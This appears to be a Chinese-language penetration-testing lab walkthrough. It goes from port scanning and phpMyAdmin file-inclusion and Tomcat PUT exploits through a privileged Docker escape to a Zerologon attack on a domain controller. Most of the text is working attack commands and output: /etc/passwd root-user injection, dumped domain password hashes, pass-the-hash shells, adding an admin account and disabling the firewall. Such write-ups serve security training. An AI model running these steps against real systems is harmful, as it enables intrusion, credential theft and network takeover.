





## fscan

```powershell
D:\Tools\fscan-v2.0.0-All\Windows>.\fscan.exe -h 10.10.0.105 -p 1-65535

   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 2.0.0
[*] 扫描类型: all, 目标端口: 1-65535
[*] 开始信息扫描...
[*] 最终有效主机数量: 1
[*] 共解析 65535 个有效端口
[+] 端口开放 10.10.0.105:22
[+] 端口开放 10.10.0.105:2002
[+] 端口开放 10.10.0.105:2001
[+] 端口开放 10.10.0.105:2003
[+] 存活端口数量: 4
[*] 开始漏洞扫描...
[*] 网站标题 http://10.10.0.105:2002   状态码:200 长度:11230  标题:Apache Tomcat/8.5.19
[*] 网站标题 http://10.10.0.105:2003   状态码:200 长度:76313  标题:10.10.0.105:2003 / mysql | phpMyAdmin 4.8.1
[+] 发现指纹 目标: http://10.10.0.105:2003   指纹: [phpMyAdmin]
[*] 网站标题 http://10.10.0.105:2001   状态码:200 长度:1077   标题:Struts2 Showcase - Fileupload sample
[+] [发现漏洞] 目标: http://10.10.0.105:2002
  漏洞类型: poc-yaml-iis-put-getshell
  漏洞名称:
  详细信息: %!s(<nil>)
[!] 扫描错误 10.10.0.105:22 - 扫描总时间超时: context deadline exceeded
[+] [发现漏洞] 目标: http://10.10.0.105:2003
  漏洞类型: poc-yaml-phpmyadmin-cve-2018-12613-file-inclusion
  漏洞名称:
  详细信息: %!s(<nil>)
[+] [发现漏洞] 目标: http://10.10.0.105:2002
  漏洞类型: poc-yaml-tomcat-cve-2017-12615-rce
  漏洞名称:
  详细信息: %!s(<nil>)
[+] [发现漏洞] 目标: http://10.10.0.105:2001
  漏洞类型: poc-yaml-struts2_045
  漏洞名称: poc1
  详细信息: %!s(<nil>)
[+] 扫描已完成: 4/4
[*] 扫描结束,耗时: 5m12.8512545s
```

指纹如下：

```
http://10.10.0.105:2001 [Struts2 Showcase]
http://10.10.0.105:2002 [tomcat]
http://10.10.0.105:2003 [phpMyAdmin]
```

```
http://10.10.0.105:2003/index.php?target=db_sql.php%253f../../../../../etc/passwd
```

phpMyAdmin 文件包含RCE





```
http://10.10.0.105:2003/index.php?target=db_sql.php%253f../../../../../tmp/sess_d5841e92b4ddf1bd9f5587ac93320c86
```

Tomcat PUT方法任意写文件漏洞



哥斯拉连接

发现是docker环境

## docker逃逸

docker配置不当引起的**特权模式逃逸**

```sh
/usr/local/tomcat/ >cat /proc/self/status | grep CapEff

CapEff:	0000003fffffffff
```

如果是以特权模式启动，CapEff对应的掩码值应该为：`0000003fffffffff`

```
fdisk -l
mkdir /test
mount /dev/sda1 /test 
```

```sh
/usr/local/tomcat/ >fdisk -l

Disk /dev/sda: 10 GiB, 10737418240 bytes, 20971520 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: dos
Disk identifier: 0x00063af9

Device     Boot    Start      End  Sectors Size Id Type
/dev/sda1  *        2048 16779263 16777216   8G 83 Linux
/dev/sda2       16781310 20969471  4188162   2G  5 Extended
/dev/sda5       16781312 20969471  4188160   2G 82 Linux swap / Solaris
```

挂载到/test

```shell
/test >cat etc/shadow
ubuntu:$1$xJbww$Yknw8dsfh25t02/g2fM9g/:18281:0:99999:7:::
```

john爆破得到

```
ubuntu:ubuntu:18281:0:99999:7:::
```

ssh连接，提权到root

```
/test >echo 'corr:$1$somesalt$uGkN1R3BfqJr15hKXW5jt.:0:0::/root:/bin/bash' >> etc/passwd
```

```shell
ubuntu@ubuntu:~$ su corr
Password: 
root@ubuntu:/home/ubuntu# whoami
root
```

另一种提权：写入ssh公钥

`ssh-keygen`

## 内网扫描

```bash
root@ubuntu:/home/ubuntu# ./fscan -h 192.168.183.128/24

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 2.0.0
[*] 扫描类型: all, 目标端口: 21,22,80,81,135,139,443,445,1433,1521,3306,5432,6379,7001,8000,8080,8089,9000,9200,11211,27017,80,81,82,83,84,85,86,87,88,89,90,91,92,98,99,443,800,801,808,880,888,889,1000,1010,1080,1081,1082,1099,1118,1888,2008,2020,2100,2375,2379,3000,3008,3128,3505,5555,6080,6648,6868,7000,7001,7002,7003,7004,7005,7007,7008,7070,7071,7074,7078,7080,7088,7200,7680,7687,7688,7777,7890,8000,8001,8002,8003,8004,8006,8008,8009,8010,8011,8012,8016,8018,8020,8028,8030,8038,8042,8044,8046,8048,8053,8060,8069,8070,8080,8081,8082,8083,8084,8085,8086,8087,8088,8089,8090,8091,8092,8093,8094,8095,8096,8097,8098,8099,8100,8101,8108,8118,8161,8172,8180,8181,8200,8222,8244,8258,8280,8288,8300,8360,8443,8448,8484,8800,8834,8838,8848,8858,8868,8879,8880,8881,8888,8899,8983,8989,9000,9001,9002,9008,9010,9043,9060,9080,9081,9082,9083,9084,9085,9086,9087,9088,9089,9090,9091,9092,9093,9094,9095,9096,9097,9098,9099,9100,9200,9443,9448,9800,9981,9986,9988,9998,9999,10000,10001,10002,10004,10008,10010,10250,12018,12443,14000,16080,18000,18001,18002,18004,18008,18080,18082,18088,18090,18098,19001,20000,20720,21000,21501,21502,28018,20880
[*] 开始信息扫描...
[*] CIDR范围: 192.168.183.0-192.168.183.255
[*] 已生成IP范围: 192.168.183.0 - 192.168.183.255
[*] 已解析CIDR 192.168.183.128/24 -> IP范围 192.168.183.0-192.168.183.255
[*] 最终有效主机数量: 256
[+] 目标 192.168.183.128 存活 (ICMP)
[+] 目标 192.168.183.130 存活 (ICMP)
[+] ICMP存活主机数量: 2
[*] 共解析 218 个有效端口
[+] 端口开放 192.168.183.130:445
[+] 端口开放 192.168.183.130:139
[+] 端口开放 192.168.183.130:135
[+] 端口开放 192.168.183.130:88
[+] 端口开放 192.168.183.128:22
[+] 存活端口数量: 5
[*] 开始漏洞扫描...
[*] NetInfo
[*] 192.168.183.130
   [->] WIN-ENS2VR5TR3N
   [->] 192.168.183.130
[!] 扫描错误 192.168.183.130:88 - Get "http://192.168.183.130:88": read tcp 192.168.183.128:38600->192.168.183.130:88: read: connection reset by peer
[*] NetBios 192.168.183.130 [+] DC:WIN-ENS2VR5TR3N.demo.com      Windows Server 2008 HPC Edition 7601 Service Pack 1
[+] MS17-010 192.168.183.130    (Windows Server 2008 HPC Edition 7601 Service Pack 1)
[!] 扫描错误 192.168.183.128:22 - 扫描总时间超时: context deadline exceeded
[+] 扫描已完成: 5/5
[*] 扫描结束,耗时: 12.048180283s
```

192.168.183.130 DC: WIN-ENS2VR5TR3N.demo.com

存在 MS17-010漏洞

用`stowaway`搭建代理，尝试漏洞

`proxychains4 msfconsole`

利用未成功

```sh
┌──(kali㉿kali)-[~/tools/zerologon/CVE-2020-1472-master]
└─$ proxychains4 python3 cve-2020-1472-exploit.py WIN-ENS2VR5TR3N 192.168.183.130
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
Performing authentication attempts...
[proxychains] Strict chain  ...  113.45.27.52:8899  ...  192.168.183.130:135  ...  OK
[proxychains] Strict chain  ...  113.45.27.52:8899  ...  192.168.183.130:49158  ...  OK
===============================================================================================================================================
Target vulnerable, changing account password to empty string

Result: 0

Exploit complete!
```

msf 验证

```
Module options (auxiliary/admin/dcerpc/cve_2020_1472_zerologon):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   NBNAME  WIN-ENS2VR5TR3N  yes       The server's NetBIOS name
   RHOSTS  192.168.183.130  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT                    no        The netlogon RPC port (TCP)
```



```
Successfully set the machine account (WIN-ENS2VR5TR3N$) password to: aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 (empty)
```

`secretsdump`抓取hash

```sh
proxychains4 impacket-secretsdump -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 demo.com/WIN-ENS2VR5TR3N$\@192.168.183.130 -just-dc
```

```sh
┌──(root㉿kali)-[~]
└─# proxychains4 impacket-secretsdump demo.com/WIN-ENS2VR5TR3N\$@192.168.183.130 -just-dc -no-pass
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[proxychains] Strict chain  ...  113.45.27.52:8899  ...  192.168.183.130:445  ...  OK
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[proxychains] Strict chain  ...  113.45.27.52:8899  ...  192.168.183.130:135  ...  OK
[proxychains] Strict chain  ...  113.45.27.52:8899  ...  192.168.183.130:49155  ...  OK
Administrator:500:aad3b435b51404eeaad3b435b51404ee:295b75bdc039b5c4e06f05b277b9e9de:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:7c4ed692473d4b4344c3ba01c5e6cb63:::
demo.com\douser:1103:aad3b435b51404eeaad3b435b51404ee:bc23b0b4d5bf5ff42bc61fb62e13886e:::
WIN-ENS2VR5TR3N$:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:ec2ea6faf378ddf06f912cbc00f6f5b0cee473bbcde7f567fc06ea84b64dc22a
Administrator:aes128-cts-hmac-sha1-96:3d2cfdf3d983c724a961ea02b19b09eb
Administrator:des-cbc-md5:83766b64b9e0fef1
Administrator:rc4_hmac:295b75bdc039b5c4e06f05b277b9e9de
krbtgt:aes256-cts-hmac-sha1-96:7908334cad9f9da66226206650d640bfdce5633d91827f71bb2f9520cccc021d
krbtgt:aes128-cts-hmac-sha1-96:4e43ee83d4f67ba26df9766e1d247a37
krbtgt:des-cbc-md5:8afbf7b6fb68d6c7
krbtgt:rc4_hmac:7c4ed692473d4b4344c3ba01c5e6cb63
demo.com\douser:aes256-cts-hmac-sha1-96:4da088c02bff380e5c4a2730b202f437625edafe74782e228ebfb17d4c7a638f
demo.com\douser:aes128-cts-hmac-sha1-96:6a909313c29211aeb7956574036d9202
demo.com\douser:des-cbc-md5:eaa86b2a941519bc
demo.com\douser:rc4_hmac:bc23b0b4d5bf5ff42bc61fb62e13886e
WIN-ENS2VR5TR3N$:aes256-cts-hmac-sha1-96:dbc729021563cedbdee3a58e1c5957eb32d3fd0617da00e13b650b0c17211047
WIN-ENS2VR5TR3N$:aes128-cts-hmac-sha1-96:fbdc490e057da628beec751bd20eb9e7
WIN-ENS2VR5TR3N$:des-cbc-md5:13c783abbfe32062
WIN-ENS2VR5TR3N$:rc4_hmac:31d6cfe0d16ae931b73c59d7e0c089c0
[*] Cleaning up... 
```

拿一个shell

```sh
proxychains4 impacket-wmiexec -hashes :295b75bdc039b5c4e06f05b277b9e9de -shell-type powershell deom.com/administrator@192.168.183.130
```



添加用户

```
net user admin Admin@123 /add
net localgroup administrators admin /add
```

关防火墙

```
netsh advfirewall set allprofiles state off
```

rdp连接

```
proxychains4 rdesktop -u demo.com\admin -p Admin@123 -r disk:mydisk=/home/kali/Desktop 192.168.183.130
```

